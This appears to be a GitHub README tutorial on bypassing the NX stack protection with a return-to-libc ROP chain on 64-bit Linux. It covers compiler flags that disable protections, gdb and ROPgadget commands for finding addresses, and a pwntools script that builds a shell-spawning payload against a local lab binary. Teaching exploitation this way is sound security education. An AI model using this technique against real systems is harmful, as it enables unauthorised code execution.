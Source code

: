 # Bypassing Non-eXecutable stack

NX bit is a mitigation technique used to increase the `difficulty` of running arbitrary code in case of an exploitation of a memory corruption `vulnerability` such as a buffer overflow.

The goal of NX bit is to separate between memory regions containing code to those containing data. That is due to the `“Von Neumann Architecture”`, in which the same memory address space can store both code and data.

Different CPU architectures and operating systems can call this feature in different names. Let us look at a couple of examples. In AMD based CPUs it is called `“NX bit”`, on Intel CPUs **“XD bit”** (Execute Disabled) and on ARM CPUs **“XN bit”** (Execute Never). On the operating system front on Windows, it is called `DEP (Data Execution Prevention)` and on Linux it is called `W^X (Write XOR Execute)`.

With NX bit turned on, our classic approach to stack based buffer overflow will fail to exploit the vulnerability. Since in classic approach, `shellcode was copied into the stack` and return address was pointing to shellcode. But now since stack is no more executable, our exploit fails!! But this mitigation technique is not completely foolproof, hence in this post lets see how to `bypass` NX Bit!!

- By `default` when compiling C program NX bit is enabled.
- To disable it use command

``````bash
gcc -z execstack program.c 
```````

### Return to Libc attack (Bypass NX)

---

The particular attack makes use of code which exists in the always-present C library (libc). For the sake of simplicity, assuming that we already have control over the `RIP register`, then instead of redirecting the control to some memory location in the stack, we will force a call to a carefully chosen existing function which serves our needs as an attacker **(e.g. to spawn a shell)**.

`libc` is a very popular target for these type of attacks as it contains almost every C function while all of these function can be accessed as they are exported. One of these functions is the system(), which has the following syntax:

```C
int system(const char *command)
```

- Find the `system()` function address
- Pass `arguments` to this function
- Find the `exit()` function address, to close the program cleanly.

In the C calling conversion in `64 bit architecture` up to six arguments will be placed to the `RDI, RSI, RDX, RCX, R8 and R9` registers and anything additional will be placed in to the stack.

After the returning from the greet_me function the stack must look like bellow:

---

![Stack](https://miro.medium.com/v2/resize:fit:640/format:webp/1*jo-61Wu9G11Xht7l7PGPJg.png)


1. Place adequate data to overflow the buffer and overwrite the `$rbp` register

2. Overwrite the `RIP` register in order to point to a `POP RDI` instruction followed by a `RET`, this way what ever is on top of the stack (in our case it will be the `“/bin/sh”` string) will be passed to the RDI register and the RET will pop the stack placing the next instruction address to the RIP register→3.

3. The stack contains the `address` of the system() function which will be passed to the RIP (due to the RET from the previous step).

4. When the system() function returns, the RIP register will point to the exit() function, in order to exit our program cleanly.

### Vulnerable Program 

---

To make a program vulnerable with only NX bit enabled use the following arguments when compiling program.

```bash
gcc -fno-stack-protector -no-pie -D_FORTIFY_SOURCE=0 program.c -o program
```

<br>

#### Locate the libc library file

Use following command in gdb to locate `libc` loaded address in the program.

```bash
$gdb-peda vmmap
```

```bash
ldd programexecutable
```

```bash
$gdb-peda info proc map
```

#### Locate a the gadget (in libc)

To get the pop rdi instruction we can use many tools to get the gadgets from the libc

```bash
ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 | grep "pop rdi"
```

- You can get /bin/sh address using the following commands. The address given by the command will be relative address to libc_base address.Use `(libc_base+/bin/sh)` to get the proper /bin/sh address.

```bash
strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep '/bin/sh'
```

- You can find system function in `gdb` also or in using `readelf`

```bash
readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep system
```

```bash
$gdb-peda x system
```

### Final Exploit

```python
import struct
from pwn import *
libc_base = 0x00007ffff7c00000
padding  = b"A"*24
#ret      = struct.pack("<Q", libc_base+0x40101a)   # stack alignment
ret      = p64(libc_base+0x40101a)                  
#poprdi   = struct.pack("<Q", libc_base+0x28715)    # pop rdi
poprdi   = p64(libc_base+0x28715)
#binsh    = struct.pack("<Q", libc_base+0x1c041b)   # /bin/sh
binsh    = p64(libc_base+0x1c041b)
#system   = struct.pack("<Q", 0x7ffff7c55230)       # absolute system address
system   = p64(0x7ffff7c55230)
#exitfunc = struct.pack("<Q", 0x7ffff7c45240)       # exit function absolute address
exitfunc = p64(0x7ffff7c45240) 
exploit = padding+ret+poprdi+binsh+system+exitfunc
file = open('exp', 'wb')
file.write(exploit)
```

## Additional Links

- [GDB](https://github.com/meharehsaan/intelx86_64/tree/master/gdb)
- [Funcions in assembly](https://github.com/meharehsaan/intelx86_64/blob/master/functions/README.md)
- [Calling conventions 64bit](https://github.com/meharehsaan/intelx86_64/tree/master/funcallconvention)
- [Simple BufferOverflow](https://github.com/meharehsaan/bufferoverflow/tree/master/bufferoverflow/bufferoverflow/README.md)
- [Introduction to x64 Linux Binary Exploitation (Part 2)—return into libc](https://valsamaras.medium.com/introduction-to-x64-binary-exploitation-part-2-return-into-libc-c325017f465)
- [x64 Linux Binary Exploitation Training](https://www.youtube.com/watch?v=gxU3e7GbC-M)

---

Best Regards - [Mehar Ehsaan](https://github.com/meharehsaan)
